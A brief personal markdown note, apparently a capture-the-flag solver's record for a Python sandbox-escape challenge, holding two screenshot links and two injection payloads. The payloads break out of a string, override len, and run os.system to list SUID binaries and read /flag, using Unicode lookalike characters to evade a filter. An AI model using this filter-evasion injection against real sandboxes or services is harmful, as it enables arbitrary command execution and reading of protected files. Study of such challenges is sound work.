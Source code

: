 # 11-02
![](<./img/Pasted image 20241102131525.png>)

![](<./img/Pasted image 20241102132027.png>)

```
‘₎﹔len ⁼ lambda x： 0﹔print₍str₍＿＿import＿＿₍‘os‘₎․system₍‘find ⁄ －perm －u⁼s‘₎₎⁺‘
‘₎﹔len ⁼ lambda x： 0﹔print₍str₍＿＿import＿＿₍‘os‘₎․system₍‘dd if⁼⁄flag‘₎₎⁺‘
```
